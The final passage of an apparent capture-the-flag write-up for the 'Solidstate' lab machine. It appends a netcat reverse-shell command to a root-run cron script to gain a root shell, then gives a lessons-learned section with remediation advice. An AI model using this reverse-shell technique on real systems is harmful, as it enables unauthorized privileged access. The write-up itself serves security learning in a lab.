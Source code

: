 Change the content of the file to send a reverse shell to our attack machine.

```
echo "os.system('/bin/nc -e /bin/bash 10.10.14.12 7777')" >> /opt/tmp.py
```

Set up a listener to receive the reverse shell.

```
nc -nlvp 7777
```

Wait a minute for the cron job to run.

![](../img/Solidstate Writeup wo Metasploit/1_ynxb5W6Wt8xB3sPlZDYZRg.png)

We have a shell! Grab the root.txt flag.

![](../img/Solidstate Writeup wo Metasploit/1_YCIcKSYTe77zalgSqIfAag.png)

# Lessons Learned

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Use of default credentials. The administrator used the default password that is shipped with the application. Since default credentials are publicly available and can be easily obtained, the user should have instead used a sufficiently long password that is difficult to crack.

1. Information disclosure. SSH credentials are stored in plaintext in one of the user’s emails. If it is necessary that the password be transmitted by email, the user should have changed the password upon the first login.

1. A Remote Code Execution (RCE) vulnerability with the James Remote server that allowed us to gain initial access to the machine. This could have been avoided if the user had patched the system and installed the most recent version of the software.

To escalate privileges we exploited one vulnerability.

1. A security misconfiguration of file permissions. There was a scheduled task that ran a file with root privileges although everyone had write access to that file. This allowed us to change the content of the file and get a privileged reverse shell sent back to our attack machine. To avoid this vulnerability, the file permissions should have been restricted to only root level access.

# Conclusion

19 machines down, 28 more to go!

![](../img/Solidstate Writeup wo Metasploit/1_mUYS-xv2aqpHOOc_1WssIQ.png)